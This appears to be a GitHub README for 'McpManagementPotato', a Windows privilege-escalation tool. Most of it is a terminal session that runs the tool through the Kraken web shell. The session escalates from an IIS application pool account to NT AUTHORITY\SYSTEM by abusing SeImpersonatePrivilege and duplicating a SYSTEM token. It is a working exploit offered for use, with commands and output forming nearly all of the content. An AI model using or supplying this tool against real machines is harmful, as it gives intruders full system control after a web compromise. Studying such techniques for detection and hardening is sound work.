# McpManagementPotato mod

TODO

> Just work on certain Windows Versions (ckeck reg key: `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost\McpManagementServiceGroup`)

## Examples

An example of elevation of privilege + impersonation using Kraken:

```
(ST) IIS APPPOOL\DefaultAppPool@WK1:C:/inetpub/wwwroot$ whoami      
  USERNAME                    SID                                                            
    
  IIS APPPOOL\DefaultAppPool  S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415  

(ST) IIS APPPOOL\DefaultAppPool@WK1:C:/inetpub/wwwroot$ list_tokens      
  TOKEN  USERNAME                    NETWORK ACCESS  INTEGRITYLEVEL  
    
  624    nt authority\iusr           True            HIGH            
  884    iis apppool\defaultapppool  True            HIGH            

(ST) IIS APPPOOL\DefaultAppPool@WK1:C:/inetpub/wwwroot$ execute_assembly -f /home/kali/McpManagementPotato.exe -n McpManagSvc -c Program -m Main
[+] Current user: 'IIS APPPOOL\DefaultAppPool'
[+] SeImpersonatePrivilege enabled
[+] Impersonating...
[+] Duplicated SYSTEM Token: '2148'

(ST) IIS APPPOOL\DefaultAppPool@WK1:C:/inetpub/wwwroot$ list_tokens      
  TOKEN  USERNAME                    NETWORK ACCESS  INTEGRITYLEVEL  
    
  624    nt authority\iusr           True            HIGH            
  884    iis apppool\defaultapppool  True            HIGH            
  2140   nt authority\system         True            SYSTEM          

(ST) IIS APPPOOL\DefaultAppPool@WK1:C:/inetpub/wwwroot$ set_token 2140                                                                                                                
Impersonated user: 'NT AUTHORITY\SYSTEM' with token: '2140'

(ST) NT AUTHORITY\SYSTEM@WK1:C:/inetpub/wwwroot$ whoami             
  USERNAME             SID       
    
  NT AUTHORITY\SYSTEM  S-1-5-18  

(ST) NT AUTHORITY\SYSTEM@WK1:C:/inetpub/wwwroot$ rev2self
[*] Token 2140 has been dereferenced (this does not mean that the token has been released)

(ST) IIS APPPOOL\DefaultAppPool@WK1:C:/inetpub/wwwroot$ exit
```


[1]: https://github.com/zcgonvh/DCOMPotato "McpManagementPotato Repository"
